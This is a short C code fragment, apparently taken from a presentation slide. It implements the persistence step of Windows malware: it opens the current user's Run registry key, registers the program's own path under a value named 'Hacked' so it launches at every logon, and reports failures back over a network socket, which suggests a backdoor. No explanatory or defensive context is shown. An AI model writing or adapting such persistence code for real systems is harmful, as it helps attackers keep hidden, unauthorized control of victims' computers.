

HKEY NewVal;

if (RegOpenKey(HKEY_CURRENT_USER, TEXT("Software\\Microsoft\\Windows\\CurrentVersion\\Run"), &NewVal) != ERROR_SUCCESS) {
		send(sock, err, sizeof(err), 0);
		return -1;
	}
DWORD pathLenInBytes = pathLen * sizeof(*szPath);
if (RegSetValueEx(NewVal, TEXT("Hacked"), 0, REG_SZ, (LPBYTE)szPath, pathLenInBytes) != ERROR_SUCCESS) {
		RegCloseKey(NewVal);
		send(sock, err, sizeof(err), 0);
		return -1;
       }